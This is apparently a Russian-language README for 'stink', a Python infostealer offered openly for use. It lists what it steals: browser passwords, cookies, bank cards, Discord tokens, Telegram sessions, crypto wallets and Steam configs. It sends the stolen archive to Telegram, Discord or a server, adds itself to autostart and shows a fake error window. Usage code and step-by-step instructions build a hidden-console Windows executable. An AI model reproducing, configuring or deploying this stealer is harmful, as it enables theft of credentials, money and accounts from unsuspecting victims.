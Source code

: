 # stink

Стиллер всего лишь в несколько строк с отправкой в Telegram / Server / Discord. Без зависимостей, только встроенные библиотеки.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Описание
`stink` уже имеет внушительный функционал, который будет только расширяться.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
  * [Определённые модули](#Определённые-модули)
  * [Дополнительные параметры](#Дополнительные-параметры)
* [Создание exe](#Создание-exe)
  * [Создание исполняемого файла](#Создание-исполняемого-файла)
  * [С помощью BAT](#С-помощью-BAT)
  * [С помощью CMD](#С-помощью-CMD)

### Текущие возможности
1. Поддержка следующих браузеров:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Сбор следующих данных:
   - Скриншот
   - Куки
   - Пароли
   - Банковские карты
   - История
   - Закладки
   - IP-адрес
   - Конфигурация системы
   - Активные процессы
   - Токены Discord
   - Сессии Telegram
   - Хосты FileZilla
   - Крипто кошельки:
       - Metamask
       - Phantom
   - Конфиги Steam
3. Поддержка мультипрофилей браузера.
4. Отправка архива собранных данных в Telegram / Server / Discord.
5. Выполнение в отдельном потоке.
6. Выполнение с использованием многопроцессорности.
7. Возможность добавления в автозагрузку.
8. Вывод окна с фейковой ошибкой.

## Пример использования
### Стандартный
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Определённые модули

Пример со сбором только системных данных и скриншота.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)], features=[Features.system, Features.screenshot]).run()
```
### Дополнительные параметры

- `features` - включает модули из списка. Модули можно импортировать из `stink.enums.Features`. Доступные модули:

  - `passwords` - сбор паролей.

  - `cookies` - сбор куки.

  - `cards` - сбор банковских карт.

  - `history` - сбор истории поиска.

  - `bookmarks` - сбор закладок.

  - `extensions` - сбор расширений браузера.

  - `processes` - сбор активных процессов.

  - `system` - сбор конфигурации системы.

  - `screen` - скриншот.

  - `discord` - сбор токенов Discord.

  - `telegram` – сбор сессий Telegram.

  - `filezilla` – сбор хостов FileZilla.

  - `wallets` – сбор крипто кошельков.

  - `steam` - сбор конфигов Steam.
  

- `utils` - включает утилиты из списка. Утилиты можно импортировать из `stink.enums.Utils`. Доступные утилиты:

  - `autostart` - добавление в автозагрузку.

  - `message` - вывод фейкового окна ошибки.
  

- `senders` - запускает способы отправки из списка. Способы отправки можно импортировать из `stink.enums.Senders`. Доступные способы отправки:

  - `server` - отправка на сервер.

  - `telegram` - отправка в Telegram.

  - `discord` - отправка в Discord.

## Создание exe
Python является интерпретируемым языком программирования, поэтому мы сначала транслируем его в C, а затем скомпилируем в .exe файл.
Для этого нам понадобится Nuitka.

### Создание исполняемого файла

1. [Скачиваем](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архив.
2. Распаковываем архив и переходим в директорию stink-master.
3. Создаем test.py (или любое другое название) файл в этой же директории со следующим кодом:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### С помощью BAT
1. Запускаем compiler.bat.

### С помощью CMD
1. Открываем `cmd`.
2. Прописываем команду:
```
pip install virtualenv
```
3. Переходим в папку с файлом `test.py`:
```
cd path\to\file
```
4. Создаем виртуальное окружение и активируем его:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Устанавливаем Nuitka:
````
pip install Nuitka==0.6.16.4
````
6. Для уменьшения размера файла дополнительно устанавливаем Zstandard (опционально):
```
pip install zstandard==0.17.0
```
7. Прописываем команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

После выполнения команды получаем test.exe файл со скрытой консолью.
